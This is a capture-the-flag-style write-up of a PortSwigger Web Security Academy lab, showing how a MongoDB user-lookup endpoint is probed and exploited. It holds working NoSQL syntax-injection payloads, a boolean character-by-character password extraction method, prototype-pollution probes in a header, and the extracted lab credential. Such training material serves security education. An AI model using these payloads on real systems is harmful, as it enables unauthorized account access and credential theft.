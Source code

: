 ```yaml
---
title: Exploiting NoSQL injection to extract data
description: PortSwigger NoSQli Lab
---
```

https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-extract-data

The user lookup functionality for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection.

To solve the lab, extract the password for the `administrator` user, then log in to their account.

You can log in to your own account using the following credentials: `wiener:peter`.

## Discovery
Lookup request
```http
GET /user/lookup?user=wiener HTTP/2
Host: 0a8b00710362746b803617e100410039.web-security-academy.net
Cookie: session=xUP64dad7rdqN2j23kvquENo0yauhObd
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-GB,en;q=0.9
Sec-Ch-Ua: "Not.A/Brand";v="99", "Chromium";v="136"
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a8b00710362746b803617e100410039.web-security-academy.net/my-account?id=wiener&constructor[prototype][a42e5579]=mn76mmkq&constructor.prototype.b1a3fd5b=mn76mmkq&__proto__.ccd80966=mn76mmkq&__proto__[dcb52823]=mn76mmkq&constrconstructoructor[prototype][a55a1ee1]=mn76mmkq&constrconstructoructor.prototype.b2f55e1f=mn76mmkq&__pro__proto__to__.eab10255=mn76mmkq&__pro__proto__to__[f33fdea1]=mn76mmkq
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
```

Response
```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 81

{
  "username": "wiener",
  "email": "wiener@normal-user.net",
  "role": "user"
}
```

Looking up administrator user: `GET /user/lookup?user=administrator HTTP/2` returns:
```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 96

{
  "username": "administrator",
  "email": "admin@normal-user.net",
  "role": "administrator"
}
```

Testing for operator vuln `GET /user/lookup?user[$ne]=wiener HTTP/2` returns 
```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 27

"Missing parameter: 'user'"
```

Testing syntax injection vuln `GET /user/lookup?user=wiener'+||+'1'+%3d%3d+'1 HTTP/2`  returns:
```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 96

{
  "username": "administrator",
  "email": "admin@normal-user.net",
  "role": "administrator"
}
```

Which means this endpoint is vulnerable to syntax injection.
Assuming the query is using  `$where` operator, so its look something like this:
```js
{"$where":"this.username == 'admin'"}
```

Can you this payload to cycle through character by character to extract the password:
```css
administrator' && this.password[0] == 'a' || 'a'=='b
```

## Exploit
Intruder
![](../../../../public/images/PS_NoSQL_20250607%20_225015.png)

Valid password character the server will respond with:
```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 96

{
  "username": "administrator",
  "email": "admin@normal-user.net",
  "role": "administrator"
}
```

Not valid server will respond with:
```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 38

{
  "message": "Could not find user"
}
```

Extracted Credentials: `administrator` :`bufkmnym`
![](../../../../public/images/PS_NoSQL_20250607%20_230751.png)